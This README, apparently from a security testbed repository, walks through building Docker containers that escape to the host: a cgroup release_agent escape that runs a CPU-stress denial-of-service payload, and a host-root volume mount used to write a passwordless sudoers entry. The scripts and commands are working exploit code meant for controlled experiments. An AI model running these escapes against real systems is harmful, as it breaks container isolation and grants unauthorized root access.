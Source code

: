 # Escape Containers

The directory has the containers that are used to launch a container escape and associated attack.  It also has other background containers.  The container escapes were derived from the following.

https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/


## Denial of Service Container

Get the latest ubuntu image

```bash
docker pull ubuntu
```

Using original ubuntu, install nano, add escape.sh, then commit

```bash
docker run --privileged --name=ESCAPE_A --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
```

From within container

```bash
apt-get update
apt-get install nano
nano escape.sh
#!/usr/bin/bash
...
(save)
chmod +x escape.sh
```

In another host terminal, saved current ubuntu to ubuntu_escape image.  The ubuntu_escape will have the escape.sh

```bash
docker commit ESCAPE_A ubuntu_escape
```

You can now exit the ubuntu container.

From a host terminal, start the ubuntu_escape container with reduced security.

```bash
docker run --name=ESCAPE_A --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu_escape bash
```

Finally, from other host terminal, execute escape.sh in ubuntu_escape.  This launches the attack (you can use top to see the increased CPU usage).  Note that [scenarioDos.py](./src/scenarioDos.py) uses this to launch the attack.
```bash
docker exec -it ESCAPE_A /escape.sh
```

### Escape

In the container, create escape.sh file with following

```bash
#!/bin/sh
mkdir /tmp/cgrp
mount -t cgroup -o memory cgroup_memory /tmp/cgrp
mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
cat stress.txt > /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

### Attack

In the container, create stress.txt file with following

```bash
#!/bin/bash
stress() {
  (
    pids=""
    cpus=${1:-1}
    seconds=${2:-60}
    echo loading $cpus CPUs for $seconds seconds
    trap 'for p in $pids; do kill $p; done' 0
    for ((i=0;i<cpus;i++)); do while : ; do : ; done & pids="$pids $!"; done
    sleep $seconds
  )
}
stress 2 20
```

## Privilege Escalation Container

Create container from alpine image.

### Escape

The privilege escape is really accomplished by the mounting of a volume during container building.

```
FROM alpine
ENV WORKDIR /privesc
RUN mkdir -p $WORKDIR
VOLUME $WORKDIR
WORKDIR $WORKDIR
```

Execute the following command to build container.

```bash
docker build -t priv-container .
```

You can execute the following command to run the container.  Note that this is done in the [scenarioPrivesc.py](../src/scenarioPrivesc.py).

```bash
docker run --name ESCAPE_B -v /:/privesc -it priv-container /bin/sh
```

### Attack

The attack assumes a user testuer aleady exists that has password requires sudo privilege (the attack changes this to password-less).  From within the container, the following is executed.

```bash
echo "testuser ALL=(ALL) NOPASSWD: ALL" > /privesc/etc/sudoers.d/010_testuser-nopasswd
```


## Prometheus-Grafana Container

The prometheus-grafana container is take from awesome-compose and can be started and stopped with the following.  Note that this is done in the [scenarioGrafana.py](../src/scenarioGrafana.py).

```bash
sudo docker-compose -f prometheus-grafana/docker-compose.yml up --no-start
sudo docker-compose -f prometheus-grafana/docker-compose.yml start
```

```bash
sudo docker-compose -f prometheus-grafana/docker-compose.yml stop
sudo docker-compose -f prometheus-grafana/docker-compose.yml rm -f
```

## Internet of Things Container

Need to add.
